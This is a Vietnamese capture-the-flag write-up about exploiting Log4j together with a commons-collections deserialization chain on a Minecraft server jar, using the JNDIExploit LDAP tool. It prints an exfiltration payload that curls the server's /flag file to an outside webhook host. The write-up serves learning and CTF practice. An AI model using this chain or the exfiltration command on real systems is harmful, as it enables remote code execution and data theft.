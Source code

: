 # Solution


Bài viết gốc có thể xem tại [đây](https://hackmd.io/@taidh/Bk94PZjt9).

Mình mới học về log4j cách đâu 2 ngày nhưng may thay được dịp gặp được cái chall về nó nên sẽ viết về solution mà chủ yếu từ wu của một đàn anh.

Server cho một file `server_1.15.jar` và để ta có thể dùng `tlauncher` để debug local.
Nhờ vào decription của tác giả ta có thể lên mạng tìm một version khác của nó để check sự khác biệt (mình có tải sẵn ở [đây](mineme\app\server.jar) )

Dùng intellij idea để kiểm tra sự khác nhau của 2 `.jar` file

![diff](https://user-images.githubusercontent.com/77546253/174476296-12876d99-e575-46ac-b33a-ce20413a2d12.png)


Ta có thể thấy bên file của đề có sử dụng `collections` và cũng có rất nhiều gadget chain phổ biến với nó. Việc còn lại là set up một ldap server để có thể transer serialized data. Cách này vừa có thể giúp ta khai khác log4j + deserialization vừa bypass được các version mới của jdk. Có thể dùng tool [này](https://github.com/WhiteHSBG/JNDIExploit).

![log4j_exploitable](https://user-images.githubusercontent.com/77546253/174476309-7bd4b92a-78ad-47ed-a001-fc3f6b97b512.png)

Đầu tiên ta thử ở local với command `calc.exe`

![local_test](https://user-images.githubusercontent.com/77546253/174476297-de034404-4216-41d1-bba7-9086bbe830f9.png)



OK giờ thử trên server của giải: `149.28.135.96:13337` với payload: `curl -X POST -d @/flag https://webhook.site/ac119b03-212f-443a-aca6-5e230bfc7544`

Encode payload:

![encode_payload](https://user-images.githubusercontent.com/77546253/174476303-a41d0b56-c1f5-489d-8518-d2be2dbe0da0.png)


Kết quả:

![flag](https://user-images.githubusercontent.com/77546253/174476325-e02aa983-a592-43be-babe-f571a0cba74f.png)






